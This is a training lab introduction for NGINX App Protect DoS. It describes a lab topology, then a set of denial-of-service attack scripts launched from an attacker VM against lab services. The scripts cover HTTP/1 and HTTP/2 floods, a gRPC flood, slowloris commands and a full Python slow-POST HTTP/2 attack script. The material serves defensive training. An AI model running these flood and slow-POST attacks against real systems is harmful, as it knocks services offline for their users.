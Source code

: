 Introduction
============
This lab will familiarize you with Denial of Service attaacks and help you protect HTTP and gRPC services against them using NGINX AppProtect Denial of Service (NAP DoS).

You will accomplish a few things as part of this lab:

#. Attack and take down an unprotected HTTP Service
#. Install and configure NAP DoS 
#. Teach NAP DoS about legitimate traffic to establish baseline
#. Protect HTTP services from Flood and Slow Loris attacks
#. Protect gRPC services from Flood and Slow Loris attacks
#. Observe and monitor attacks from NAP DoS metrics pulled into an ELK Stack (Elastic Search, Logstash, Kibana)
#. Monitor live activity with the built-in NAP DoS Dashboard

Lab Topology
============
This lab uses a UDF (Unified Demonstration Framework) to stand up the set of VMs described below.  Additionally there is an image that show traffic flow through the environment.

Clients
    - Legitimate Traffic -- Contains scripts to act as legitimate client traffic -- 10.1.1.10
    - Attacker -- Contains scripts for DoS attacks to act as bad actor client traffic -- 10.1.1.11
Load Balancers
    - NGINX LB -- L4 edge load balancer that distributes traffic between two NAP DoS instances and appropriate internal ports -- 10.1.1.4
    - NAP DoS 1 -- first L7 load balancer that maps internal ports to backend services -- 10.1.1.6
    - NAP DoS 2 -- second L7 load balancer that maps internal ports to backend services -- 10.1.1.7
    - Arbitrator --  Orchestrates multiple NAP DoS instances to sync attack starts and stops -- 10.1.1.12
Backends
    - JuiceShop -- Sample eCommerce site to serve as a generic backend application -- 10.1.1.13
    - gRPC Application -- "RouteGuide" gRPC service running in a container environment -- 10.1.1.9
Monitoring
    - ELK -- containerized ELK stack pre-configured to monitor NAP DoS instances -- 10.1.1.3
.. image:: ../_static/intro_topology.png

Attack Scripts
============
All attack scripts are located in ``/scripts`` folder on the "Attacker" VM.

HTTP/1 Flood Attack -- ``/scripts/http1flood.sh``
    - A type of DoS attack in which the attacker manipulates HTTP and sends unwanted requests in order to attack a web server or application.
    - Instead of using malformed packets, spoofing and reflection techniques, HTTP floods require less bandwidth to attack the targeted servers.
    - Typically will target the most resource intensive endpoints on the service.  
    - ``ab -l -r -n 20000000 -c 10000 -d -s 120 http://10.1.1.4:600/`` 
    - This attack uses Apache Benchmark (ab) to send 20 million requests with 10k concurrent connections w/ 120 second timeout looped indefinitely.
    
Slow POST HTTP Attack (Slow Loris) -- ``/scripts/slow_post_http1.sh``
    - A type of attack that relies on the fact that the HTTP protocol, by design, requires requests to be completely received by the server before they are processed.
    - Sends a legitimate POST header with a ``Content-Length`` header specifying the size of the message body.
    - Attacker sends the actual message body at a slow rate or not at all.
    - Attacker then opens thousands of such connections exhausting the logical resources for concurrent connections rather than bandwidth or processing power, allowing the attacker to efficently take out a web server.
    - ``slowhttptest -c 50000 -B -g -o my_body_stats -l 600 -i 5 -r 1000 -s 8192 -u http://10.1.1.4:600/api/Feedbacks/ -x 10 -p 3``
    - 50k connections with 5 second delay in message body for 600 seconds, 1k connections per second, 8192 byte Content-Length header, 10 byte follow-up data, 3 second timeout for HTTP response on probe connection.  Sends delayed POST request in message body to /api/Feedbacks/ endpoint on JuiceShop service.
    
HTTP/2 Flood Attack -- ``/scripts/http2flood.sh``
    - Like the HTTP 1 Flood Attack, but this uses the HTTP/2 protocol.
    - gRPC uses HTTP/2 under the hood so we are targeting the gRPC endpoint with a simple HTTP/2 flood attack.
    - ``h2load -n 10000 -c 1000 http://10.1.1.4:500/routeguide.RouteGuide/GetFeature``
    - Uses h2load to launch an attack using 10000 requests with 1000 clients on the "RouteGuide" gRPC service.

gRPC Message Flood Attack -- ``/scripts/grpcflood.sh``
    - Increasingly, we have seen more DoS attacks using HTTP and HTTP/2 requests or API calls to attack at the application layer (Layer 7), in large part because Layer 7 attacks can bypass traditional defenses that are not designed to defend modern application architectures.
    - Detecting DoS attacks on gRPC applications is extremely hard, especially in modern environments where scaling out is performed automatically. A gRPC service may not be designed to handle high‑volume traffic which makes it an easy target for attackers to take down.
    - Based on statistical anomaly detection, NGINX App Protect DoS successfully identifies bad actors by source IP address and TLS fingerprints, enabling it to generate and deploy dynamic signatures that automatically identify and mitigate these specific patterns of attack traffic. This approach is unlike traditional DoS solutions on the market that detect when a volumetric threshold is exceeded. 
    - ``ghz --insecure -c 10000  -n 100000 -t 2s -z 2s --import-paths ./routeguide --proto route_guide.proto --call routeguide.RouteGuide.GetFeature 10.1.1.4:500``
    - Launch the ghz gRPC benchmarking tool against the “RouteGuide” GRPC service using 10000 request workers with 100000 requests, with a timeout and duration of 2 seconds.

Slow POST gRPC Attack -- ``/scripts/slow_post_http2.sh``
    - The attacker supplies several concurrent slow POST gRPC requests that exceed the server capacity of concurrent requests.
    - This attack sends 100 streams of a POST request to /testing using gRPC
.. code-block:: bash
    :caption: slow_post_http2.sh

    #!/bin/bash
    function int_handler {
        pkill -9 -e python
        exit
    }

    trap int_handler INT

    while true; do
        python slow_post.py  > /dev/null 2>&1 &
        sleep 20
        pkill -9 -e python
    done

Python script referenced by the shell script:

.. code-block:: python
    :caption: slow_post.py

    import ssl
    import socket
    from time import sleep
    from threading import Thread

    def do_attack():
        connection_preface = "PRI * HTTP/2.0\r\n\r\nSM\r\n\r\n"

        # Settings Frame
        settings_frame = "000018040000000000000400ffffff000200000001000300007d00000500004000"
        settings_ack = "000000040100000000"

        # Headers frame sending a POST request to /testing with content-length of 999999999 and end_stream flag set to false
        headers_frame = "00001d0104000000018744866125424d54df834188081713415c2b85cf5c877df7df7df7df7f"

        # Data frame containing a single "A" character as payload
        data_frame = "00000100000000000141"

        connection_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connection_socket = ssl.wrap_socket(connection_socket)
        connection_socket.context.set_ciphers('AES128-GCM-SHA256')
        connection_socket.context.set_alpn_protocols(['h2'])
        connection_socket.connect(('10.1.1.4', 443))
        connection_socket.send(connection_preface)
        connection_socket.send(settings_frame.decode('hex'))
        connection_socket.send(settings_ack.decode('hex'))

        # Open 100 streams (MAXIMUM_CONCURRENT_STREAMS received from Apache) by sending header frames
        for i in range(1, 200):
            if i % 2 == 0:
                continue
            headers_frame = headers_frame.replace(headers_frame[10:18],str(i).zfill(8))
            connection_socket.send(headers_frame.decode('hex'))

        while True:
            for i in range(1, 200):
                if i % 2 == 0:
                    continue
                data_frame = data_frame.replace(data_frame[10:18], str(i).zfill(8))
                connection_socket.send(data_frame.decode('hex'))
            sleep(20)

    if __name__ == '__main__':
        for i in range(2000):
            attack_thread = Thread(target=do_attack)
            attack_thread.start()
    
    




    


    
    
